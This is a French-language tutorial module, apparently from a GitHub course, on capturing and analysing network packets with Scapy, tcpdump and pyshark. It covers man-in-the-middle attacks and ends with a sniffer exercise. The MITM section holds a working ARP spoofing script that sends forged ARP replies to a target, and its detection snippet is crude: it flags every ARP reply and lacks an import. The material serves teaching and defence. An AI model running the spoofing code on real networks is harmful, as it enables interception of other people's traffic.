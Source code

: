 ### 🟢 Module 3 : Analyse et manipulation des paquets réseau

**Objectif du module :**  
Capturer et analyser le trafic réseau pour détecter des vulnérabilités, avec une introduction à l'utilisation de Scapy pour l'analyse réseau, la capture et le filtrage des paquets, ainsi que la détection des paquets malveillants et les attaques de type Man-in-the-Middle (MITM).

---

### **1. Introduction à Scapy pour l'analyse réseau**

**Qu'est-ce que Scapy ?**

Scapy est une bibliothèque Python utilisée pour la manipulation et l’analyse des paquets réseau. Elle permet de créer, envoyer, recevoir et analyser des paquets réseau facilement. Avec Scapy, il est possible de capturer le trafic réseau en temps réel, d’analyser les paquets à la recherche de données intéressantes, et d’effectuer des attaques réseau telles que le **Man-in-the-Middle** (MITM).

#### **Notions à maîtriser :**
- **Création de paquets :** Scapy permet de créer des paquets personnalisés pour tester la sécurité d’un réseau.
- **Sniffing (ou capture) de paquets :** Scapy permet de capturer les paquets en temps réel et de les analyser.
- **Envoi de paquets :** Vous pouvez envoyer des paquets réseau pour tester la réactivité d'un service ou d'une application.

#### **Exemples pratiques :**
- **Sniffer les paquets réseau** :
    ```python
    from scapy.all import sniff

    def packet_callback(packet):
        print(packet.summary())

    sniff(prn=packet_callback, count=10)
    ```
    Ce script capture les 10 premiers paquets sur le réseau et affiche un résumé de chaque paquet.

- **Créer un paquet ICMP (Ping)** :
    ```python
    from scapy.all import IP, ICMP, send

    packet = IP(dst="192.168.1.1")/ICMP()
    send(packet)
    ```
    Ce script envoie un paquet ICMP (ping) à l’adresse IP spécifiée.

---

### **2. Capture et filtrage des paquets (tcpdump, Wireshark en Python)**

Les outils comme **tcpdump** et **Wireshark** sont largement utilisés pour analyser les paquets réseau. Cependant, ces outils ne peuvent être utilisés directement que via des interfaces graphiques ou des commandes shell. Grâce à Python, vous pouvez automatiser l’analyse et le filtrage des paquets capturés par ces outils en utilisant des bibliothèques comme **pyshark** (interface Python pour Wireshark) et **subprocess** pour exécuter des commandes externes.

#### **Notions à maîtriser :**
- **Tcpdump en Python :** Vous pouvez utiliser **subprocess** pour exécuter des commandes tcpdump et récupérer la sortie dans votre script Python.
- **Filtrage de paquets avec Wireshark :** Vous pouvez utiliser **pyshark** pour analyser les paquets de manière plus spécifique, filtrer selon différents critères (comme le type de protocole, l'adresse IP, etc.).

#### **Exemples pratiques :**
- **Utiliser tcpdump avec subprocess** pour capturer les paquets :
    ```python
    import subprocess

    def capture_packets():
        command = "sudo tcpdump -i eth0 -c 10"
        process = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE)
        output = process.communicate()[0]
        print(output.decode())

    capture_packets()
    ```

- **Utiliser pyshark pour analyser un fichier pcap** (capture de paquets) :
    ```python
    import pyshark

    cap = pyshark.FileCapture('capture.pcap', display_filter='ip')
    for packet in cap:
        print(packet)
    ```
    Ce script ouvre un fichier **pcap** et filtre les paquets pour ne montrer que ceux contenant des informations IP.

---

### **3. Détection des paquets malveillants et attaque Man-in-the-Middle (MITM)**

#### **Qu’est-ce qu’une attaque Man-in-the-Middle (MITM) ?**
Une attaque MITM consiste à intercepter les communications entre deux parties sans qu'elles en aient conscience. L'attaquant peut alors modifier les messages échangés ou espionner les informations sensibles.

##### **Objectif de cette section :**  
Détecter les paquets malveillants, comme ceux utilisés dans les attaques MITM, et les analyser pour prévenir de telles attaques dans un réseau sécurisé.

#### **Notions à maîtriser :**
- **ARP Spoofing** : L’attaquant envoie de fausses réponses ARP pour associer son adresse MAC à une adresse IP cible, redirigeant ainsi le trafic réseau.
- **SSL Stripping** : Une attaque MITM qui force la connexion HTTPS à se convertir en HTTP non sécurisé, exposant ainsi les informations sensibles.

#### **Exemples pratiques :**
- **ARP Spoofing** (attacker’s MAC address on target) avec Scapy :
    ```python
    from scapy.all import ARP, Ether, sendp

    def arp_spoof(target_ip, target_mac, gateway_ip, gateway_mac):
        # Create the ARP response
        arp_response = ARP(op=2, psrc=gateway_ip, pdst=target_ip, hwdst=target_mac)
        ether_response = Ether(dst=target_mac)/arp_response
        sendp(ether_response, iface="eth0", count=5)

    arp_spoof("192.168.1.5", "00:11:22:33:44:55", "192.168.1.1", "00:11:22:33:44:66")
    ```
    Ce script envoie des paquets ARP falsifiés à une cible pour effectuer une attaque de type ARP Spoofing.

- **Detecting MITM** : Vous pouvez capturer les paquets et vérifier les anomalies dans les entêtes de chaque paquet.
    ```python
    from scapy.all import sniff

    def detect_mitm(packet):
        if packet.haslayer(ARP):
            if packet[ARP].op == 2:  # ARP reply
                print("ARP Spoofing detected!")
                print(packet.summary())

    sniff(prn=detect_mitm, store=0)
    ```
    Ce script vérifie la présence de réponses ARP suspectes (souvent utilisées dans les attaques MITM).

---

### **4. Exercice : Créer un sniffer qui capture et analyse les paquets en temps réel**

**Objectif de l'exercice :**  
Créer un sniffer capable de capturer et d'analyser le trafic réseau en temps réel à la recherche de paquets malveillants ou de tentatives d'attaque. Vous devrez également implémenter une analyse basique pour identifier des paquets suspects ou non autorisés.

#### **Instructions :**
1. Utilisez Scapy pour capturer les paquets en temps réel.
2. Filtrez les paquets en fonction du protocole (HTTP, ICMP, TCP, UDP, etc.).
3. Implémentez une logique qui détecte les paquets suspects (ex. : ARP Spoofing, trafic non sécurisé HTTP).
4. Affichez un résumé des paquets capturés et indiquez si un paquet suspect est détecté.
5. Optionnel : Exécutez le sniffer sur un réseau local simulé dans un environnement virtuel.

#### **Exemple de structure du code :**
```python
from scapy.all import sniff, ARP, IP, TCP

def packet_analysis(packet):
    if packet.haslayer(ARP):
        print(f"ARP Packet: {packet.summary()}")
        # Vous pouvez détecter les anomalies ici

    elif packet.haslayer(IP):
        ip_src = packet[IP].src
        ip_dst = packet[IP].dst
        print(f"IP Packet: {ip_src} -> {ip_dst}")

    elif packet.haslayer(TCP):
        print(f"TCP Packet: {packet.summary()}")
        # Vous pouvez ajouter des conditions supplémentaires pour détecter les attaques

# Capture les paquets et appelle packet_analysis pour chaque paquet
sniff(prn=packet_analysis, store=0)
```

---

### **Conclusion du Module 3 :**

À la fin de ce module, vous devriez être capable de capturer et d'analyser le trafic réseau en utilisant des outils comme **Scapy**, **Wireshark**, et **tcpdump**, de détecter des attaques réseau comme **Man-in-the-Middle** et **ARP Spoofing**, et d'automatiser l'analyse des paquets avec des scripts Python.

Une fois que vous avez maîtrisé ces compétences, vous pourrez aborder le **Module 4** sur les attaques par force brute et l’exploitation des vulnérabilités.